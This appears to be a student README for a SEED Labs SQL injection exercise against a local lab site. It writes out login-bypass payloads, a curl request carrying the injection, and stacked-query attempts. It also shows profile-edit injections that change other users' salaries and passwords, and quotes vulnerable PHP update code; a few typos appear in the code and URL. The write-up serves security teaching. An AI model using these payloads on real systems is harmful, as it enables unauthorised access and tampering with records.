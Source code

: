 # SQL-INJECTION
# SQL-injection
### Task 1
Login in MYSQL:
    
    
    mysql -u root -pseedubuntu
    
    mysql> use Users;
    
    mysql> show tables;
    
//Use such a SQL query

		select * from credential where Name='Alice';
    
![alttext](https://github.com/Waleed-gif/SQL-injection/blob/main/task%201.png)

###Task 2:
Task 2.1
        
        .USERNAME: "Admin' #"
	      
        .PASSWORD: "xyz" (here is password is optional)

//We will result in SQL Query
		    
        SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
		    
        FROM credential
		    
        WHERE name='Admin' #' && password='xyz'

![alttext](https://github.com/Yasirleem/SQL-INJECTION/blob/main/task%202.1.png)

Task 2.2 
//1- Write Code on Terminator in Seed Lab:
    
    curl 'http://www.seedlabsqlinjection.com/unsafe_home.php username=Admin%27%20%23';
    
//2- Copy the HTML code.

//3- Make a new file in location "file:///home/seed/Documents/temp.html"

//4. Run this location on browser

![alttext](https://github.com/Yasirleem/SQL-INJECTION/blob/main/task%202.2.png)

Task 2.3
//Inject Statment to append a row to current database:

    INSERT INTO credential (name,eid) VALUES('Waleed', '17422');
    
//After row inserted, go to browser and input as:
	
    .USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('Yasir','237492') #";
	
    .PASSWORD: "" (blank field);
  
  
![alttext](https://github.com/Yasirleem/SQL-INJECTION/blob/main/task%202.3.png)

//PHP's mysqli extension, involes mysqli::query API to handle SQL statement, doesn't support for multiple queries with in the same run. Of course, the design of this API attributes to concern of SQL injection.


###Task 3
EDIT profile can be run on line "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

Task 3.1
  
  --> Login as Username= 'Alice' && Password = xyz, 
	
  --> Then edit the link to browser 
  
  http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	
  --> Update Phone Number as ', Salary=1000000 and save.

Task 3.2

  --> Login as Username= 'Boby' #' and then open edit profile;
 
  --> Update Phone Number: ',Salary=0 and remaining unchanges;
  

![alttext](https://github.com/Yasirleem/SQL-INJECTION/blob/main/task%203.2.png)

//Login as Alice
  Assume login as Boby and keep Alice login too. Open Alice profile edit
	
  Update Phone Number: ', Salary=1 where name='Boby' #
  
Task 3.3
//We're login as Boby but change password of Alice
  

  $conn = getDB();
  // Don't do this, this is not safe against SQL injection attack
	$sql="";
	if($input_pwd!=''){
	// In case password field is not empty.
	$hashed_ = sha1($input_pwd);
	//Update the password stored in the session.
	$_SESSION['pwd']=$hashed_pwd;
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
	}else{
	// if passowrd field is empty.
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
	$conn->query($sql);
	$conn->close();
	header("Location: unsafe_home.php");
	exit(); 
